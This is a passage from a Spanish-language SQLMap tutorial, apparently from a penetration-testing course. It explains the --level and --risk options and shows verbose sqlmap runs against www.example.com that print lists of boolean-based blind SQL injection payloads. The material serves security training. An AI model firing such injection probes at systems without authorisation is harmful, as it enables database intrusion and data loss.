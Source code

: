 Por defecto, SQLMAP combina un conjunto predefinido de límites más comunes (es decir, pares de prefijo/sufijo), junto con los vectores que tienen una alta probabilidad de éxito en caso de un objetivo vulnerable. Sin embargo, existe la posibilidad de que los usuarios usen conjuntos más grandes de límites y vectores, ya incorporados en el SQLMAP.

Para tales demandas, las opciones`--level`y`--risk`debe usarse:

- La opción`-level` (`1-5`, por defecto`1`) extiende tanto los vectores como los límites que se utilizan, en función de su expectativa de éxito (es decir, cuanto menor sea la expectativa, mayor es el nivel).
- La opción`-risk` (`1-3`, por defecto`1`) extiende el conjunto de vectores usados en función de su riesgo de causar problemas en el lado objetivo (es decir, riesgo de pérdida de entrada de base de datos o denegación de servicio).

La mejor manera de verificar las diferencias entre los límites usados y las cargas útiles para diferentes valores de`--level`y`--risk`, es el uso de`-v`opción para establecer el nivel de verbosidad. En verbosidad 3 o superior (por ejemplo`-v 3`), mensajes que contienen el usado`[PAYLOAD]`se mostrará, como sigue:

Ajuste de ataque

```
xnoxos@htb[/htb]$ sqlmap -u www.example.com/?id=1 -v 3 --level=5...SNIP...
[14:17:07] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause'
[14:17:07] [PAYLOAD] 1) AND 5907=7031-- AuiO
[14:17:07] [PAYLOAD] 1) AND 7891=5700 AND (3236=3236
...SNIP...
[14:17:07] [PAYLOAD] 1')) AND 1049=6686 AND (('OoWT' LIKE 'OoWT
[14:17:07] [PAYLOAD] 1'))) AND 4534=9645 AND ((('DdNs' LIKE 'DdNs
[14:17:07] [PAYLOAD] 1%' AND 7681=3258 AND 'hPZg%'='hPZg
...SNIP...
[14:17:07] [PAYLOAD] 1")) AND 4540=7088 AND (("hUye"="hUye
[14:17:07] [PAYLOAD] 1"))) AND 6823=7134 AND ((("aWZj"="aWZj
[14:17:07] [PAYLOAD] 1" AND 7613=7254 AND "NMxB"="NMxB
...SNIP...
[14:17:07] [PAYLOAD] 1"="1" AND 3219=7390 AND "1"="1
[14:17:07] [PAYLOAD] 1' IN BOOLEAN MODE) AND 1847=8795#
[14:17:07] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause (subquery - comment)'

```

Por otro lado, las cargas útiles utilizadas con el valor predeterminado`--level`El valor tiene un conjunto de límites considerablemente más pequeño:

Ajuste de ataque

```
xnoxos@htb[/htb]$ sqlmap -u www.example.com/?id=1 -v 3...SNIP...
[14:20:36] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause'
[14:20:36] [PAYLOAD] 1) AND 2678=8644 AND (3836=3836
[14:20:36] [PAYLOAD] 1 AND 7496=4313
[14:20:36] [PAYLOAD] 1 AND 7036=6691-- DmQN
[14:20:36] [PAYLOAD] 1') AND 9393=3783 AND ('SgYz'='SgYz
[14:20:36] [PAYLOAD] 1' AND 6214=3411 AND 'BhwY'='BhwY
[14:20:36] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause (subquery - comment)'

```
